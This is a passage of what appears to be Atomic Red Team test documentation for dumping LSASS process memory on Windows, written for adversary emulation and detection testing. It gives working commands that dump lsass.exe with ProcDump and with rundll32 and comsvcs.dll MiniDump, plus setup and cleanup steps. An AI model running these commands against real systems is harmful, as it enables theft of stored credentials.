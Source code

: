 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
"#{procdump_exe}" -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:

```cmd
del "#{output_file}" >nul 2> nul
```

#### Dependencies: Run with `powershell`!

##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```

<br/>
<br/>

## Atomic Test #2 - Dump LSASS.exe Memory using comsvcs.dll

The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.

Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows

**auto_generated_guid:** 2536dee2-12fb-459a-8c37-971844fa73be

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```
